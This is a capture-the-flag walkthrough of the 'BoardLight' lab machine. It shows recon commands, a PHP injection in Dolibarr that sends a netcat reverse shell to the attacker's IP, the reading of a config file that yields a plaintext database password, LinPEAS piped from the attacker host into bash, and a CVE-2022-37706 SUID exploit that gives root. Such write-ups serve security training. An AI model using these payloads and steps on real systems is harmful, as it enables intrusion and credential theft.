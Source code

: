 
nmap:

```
nmap -sC -sV {target ip}
```

Added the domain and ip to the hosts file:

```
echo "10.10.11.11 board.htb" | sudo tee -a /etc/hosts
```

Gobuster to enumerate vhosts:

```
gobuster vhost -w /opt/useful/SecLists/Discovery/DNS/subdomains-top1million-5000.txt -u http://board.htb
```

Uploads a PHP file to HTML input in Dolibarr to check for reverse shell vuln:

```
<?PHP echo system("whoami");?>
```

It is successful!

Run netcat locally:

```
nc -lnvp 4455
```

Use the payload to get the shell:

```
<?PHP echo system("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.41 4455 >/tmp/f");?>
```
After I get the shell,  I run `whoami`, I get the the user `www-data`. 

Run this command to get a more stable shell, sending the output to `/dev/null`
```
 script /dev/null -c /bin/bash
 ```
Enumerating the files I get some interesting credentials:

```
www-data@boardlight:~/html/crm.board.htb/htdocs/public/website$ cat
/var/www/html/crm.board.htb/htdocs/conf/conf.php
<...SNIP...>
$dolibarr_main_data_root='/var/www/html/crm.board.htb/documents';
$dolibarr_main_db_host='localhost';

$dolibarr_main_db_port='3306';
$dolibarr_main_db_name='dolibarr';
$dolibarr_main_db_prefix='llx_';
$dolibarr_main_db_user='dolibarrowner';
$dolibarr_main_db_pass='serverfun2$2023!!';
$dolibarr_main_db_type='mysqli';
$dolibarr_main_db_character_set='utf8';
<...SNIP...>
```
Looking for users I `cat etc/passwd` and get:

```
www-data@boardlight:~/html/crm.board.htb/htdocs/public/website$ cat /etc/passwd
<...SNIP...>
larissa:x:1000:1000:larissa,,,:/home/larissa:/bin/bash
```
I login to `larissa` with the credentials above using `ssh`.

Download LinPEAS locally, then set up a web-server locally, and curl LinPEAS from the attacking box:
```
wget https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh

sudo python3 -m http.server 3000
```
```
curl http://10.10.14.41:3000/linpeas.sh|bash
```
And I get the output:
```
                      ╔════════════════════════════════════╗
══════════════════════╣ Files with Interesting Permissions

╠══════════════════════
                      ╚════════════════════════════════════╝

<...SNIP...>
-rwsr-sr-x 1 root root 15K Apr  8 18:36 /usr/lib/xorg/Xorg.wrap
-rwsr-xr-x 1 root root 27K Jan 29  2020 /usr/lib/x86_64-linux-
gnu/enlightenment/utils/enlightenment_sys (Unknown SUID binary!)

-rwsr-xr-x 1 root root 15K Jan 29  2020 /usr/lib/x86_64-linux-
gnu/enlightenment/utils/enlightenment_ckpasswd (Unknown SUID binary!)

-rwsr-xr-x 1 root root 15K Jan 29  2020 /usr/lib/x86_64-linux-
gnu/enlightenment/utils/enlightenment_backlight (Unknown SUID binary!)

-rwsr-xr-x 1 root root 15K Jan 29  2020 /usr/lib/x86_64-linux-
gnu/enlightenment/modules/cpufreq/linux-gnu-x86_64-0.23.1/freqset (Unknown SUID
binary!)
<...SNIP...>
```
The file enlightenment stands out, so

```
larissa@boardlight:~$ enlightenment --version
ESTART: 0.00001 [0.00001] - Begin Startup
ESTART: 0.00018 [0.00017] - Signal Trap
ESTART: 0.00026 [0.00008] - Signal Trap Done
ESTART: 0.00034 [0.00009] - Eina Init

ESTART: 0.00073 [0.00038] - Eina Init Done
ESTART: 0.00081 [0.00008] - Determine Prefix
ESTART: 0.00100 [0.00019] - Determine Prefix Done
ESTART: 0.00109 [0.00009] - Environment Variables
ESTART: 0.00117 [0.00008] - Environment Variables Done
ESTART: 0.00125 [0.00007] - Parse Arguments
Version: 0.23.1
E: Begin Shutdown Procedure!
```
I see the version `0.23.1` and after a google search I see there is a vulnerability CVE-2022-37706. This vulnerability allows local users to gain elevated privileges because the binary is `SUID` and is owned as the root user, and the system library function mishandles path names that begin with `/dev/`. I download a proof of concept script locally:

```
wget https://raw.githubusercontent.com/MaherAzzouzi/CVE-2022-37706-LPE-
exploit/main/exploit.sh
```
I host the exploit with a webserver:

```
python3 -m http.server 2000
```
And download the exploit, 

```
larissa@boardlight:/tmp$ wget http://10.10.14.41:2000/exploit.sh
```
I run the exploit:

```
larissa@boardlight:/tmp$ bash exploit.sh
CVE-2022-37706
[*] Trying to find the vulnerable SUID file...
[*] This may take few seconds...
[+] Vulnerable SUID binary found!
[+] Trying to pop a root shell!
[+] Enjoy the root shell :)
mount: /dev/../tmp/: can't find in /etc/fstab.
# id
uid=0(root) gid=0(root) groups=0(root),4(adm),1000(larissa)
```

I get the root flag by running `cat /root/root.txt`




